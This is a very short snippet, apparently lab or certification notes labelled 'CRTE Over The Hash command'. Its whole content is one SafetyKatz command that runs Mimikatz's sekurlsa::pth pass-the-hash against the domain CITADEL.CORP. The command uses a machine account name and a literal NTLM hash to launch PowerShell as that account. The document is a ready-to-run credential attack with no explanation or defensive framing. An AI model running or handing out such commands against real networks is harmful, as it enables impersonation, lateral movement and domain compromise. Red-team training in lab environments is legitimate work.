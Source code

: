 # CRTE Over The Hash command 
SafetyKatz.exe "sekurlsa::pth /user:PAWSRV$ /domain:CITADEL.CORP /ntlm:e19f980f68ca43cbb88bec510aaf4b44 /run:powershell.exe" 
will be deleted in 24h
